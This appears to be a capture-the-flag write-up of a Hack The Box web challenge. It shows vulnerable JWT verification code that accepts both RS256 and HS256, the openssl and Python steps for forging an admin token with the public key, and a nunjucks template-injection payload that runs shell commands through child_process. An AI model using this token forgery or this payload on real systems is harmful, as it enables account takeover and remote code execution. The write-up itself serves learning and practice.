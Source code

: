# Cyber Santa – Naughty or Nice

- **Category:** Web
- **Points:** 325
- **Difficulty:** ★★☆☆

## Disclaimer: I did not solve this challenge during the competition.

## Challenge

A website with a simple register/login as well as dashboard page. Source code was supplied.

## Solution

- JWT Token Signing Algorithm accepts both `RS256` and the insecure `HS256`

```
async sign(data) {
    data = Object.assign(data, {pk:publicKey});
    return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
},
async verify(token) {
    return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
}
```

- JWT Token was in format `{username: "xxx", "pk:" "xxx", "iat": "xxx"}`
- Where `pk` was the Public Key that was used to sign the token
- Modifying the JWT Token to accept `HS256` as its algorithm and changing the username to `admin`. We get a new JWT
- We need to sign the this new JWT token using the Public Key supplied

  - Convert the Public Key into hex
    - Add the Public Key to a file called `test.pem`
    - ```
      cat test.pem | xxd -p | tr -d "\\n"
      ```
  - Run the command `echo -n "new_jwt_token" | openssl dgst -sha256 -mac HMAC -macopt hexkey: \_the_hex_of_publickey
  - Convert the signature into base64 and remove appended equals signs

  ```
  import base64, binascii
  print(base64.urlsafe_b64encode(binascii.a2b_hex('signature')).replace(b'=',b''))
  ```

  - Append the secret to the header and payload of the new jwt and refresh page

- There is template rendering from the nunjucks templating engine
- Using the payload

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat ../flag*')")()}}
```

retrieves the flag

```
HTB{S4nt4_g0t_ninety9_pr0bl3ms_but_chr1stm4s_4in7_0n3}
```

## Thoughts

- This was quite hard. Even while following writeups, had a bit of trouble
- Getting the jwt signed with the Public Key had to be on my Kali VM because my Mac had some error setting context, bad key length in some crypto internal error that I couldn't rectify
- Hex encoding of base 64 public key should have been done using the bash utilities. I did not figure out why converting it into bytes then hex gave me an invalid signature.
- Learnt a new templating payload
- Learnt how to crack jwts! (weak ones that accept multiple algorithms)
- Useful post that I referred to [jwt cracker](https://habr.com/en/post/450054/)

